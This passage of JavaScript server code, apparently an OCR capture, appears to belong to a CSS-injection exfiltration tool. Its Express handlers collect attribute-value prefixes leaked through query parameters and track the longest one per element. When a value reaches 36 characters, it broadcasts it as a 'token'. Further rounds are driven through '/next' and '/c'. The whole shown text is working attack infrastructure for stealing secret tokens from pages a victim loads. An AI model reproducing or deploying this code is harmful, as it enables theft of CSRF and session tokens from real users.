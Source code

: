 ```js
    for (let element of ELEMENTS) {
        for (let attribute of ATTRIBUTES[element]) {
            const elementNumber = int(req.query.e, MAX_ELEMENTS);
            if (elementNumber > MAX_ELEMENTS) {
                return;
            }
            const prefixKey = getPrefix(element, attribute, elementNumber);
            const prefixQueryValue = req.query[prefixKey];
            if (typeof prefixQueryValue === 'undefined') {
                continue;
            }
            if (prefixQueryValue.length > MAX_VALUE) {
                continue;
            }
            if (n === int(req.query.n, MAX_VALUE) && currentElementPos === elementNumber) {
                if (!prefixes.has(prefixKey)) {
                    prefixes.set(prefixKey, '');
                }
                if (prefixQueryValue.length > prefixes.get(prefixKey).length) {
                    console.log(prefixQueryValue)
                    if (prefixQueryValue.length == 36) {
                        io.emit('token', { token: prefixQueryValue});
                    }
                    prefixes.set(prefixKey, String(prefixQueryValue));
                    session.get(ip).set('foundToken', true);
                }
            }
        }
    }
});

app.use('/next', function (request, response) {
    setTimeout(x => {
        const ip = getIP(request);
        if (!hasSession(ip)) {
            response.end();
            return;
        }
        let foundToken = session.get(ip).get('foundToken');
        if (!foundToken) {
            checkCompleted(request, response);
        } else {
            session.get(ip).set('foundToken', false);
            let n = session.get(ip).get('n');
            n++;
            session.get(ip).set('n', n);
            genResponse(request, response, session.get(ip).get('currentElementPos'));
        }
    }, WAIT_TIME_MS);
});

app.use('/c', function (request, response) {
    response.end();
    const ip = getIP(request);
    if (!hasSession(ip)) {
        response.end();
        return;
    }
    const tokens = session.get(ip).get('tokens');
    let req = url.parse(request.url, url);
    let attribute = String(req.query.a);
    let tag = String(req.query.t);
    let value = String(req.query.v);
```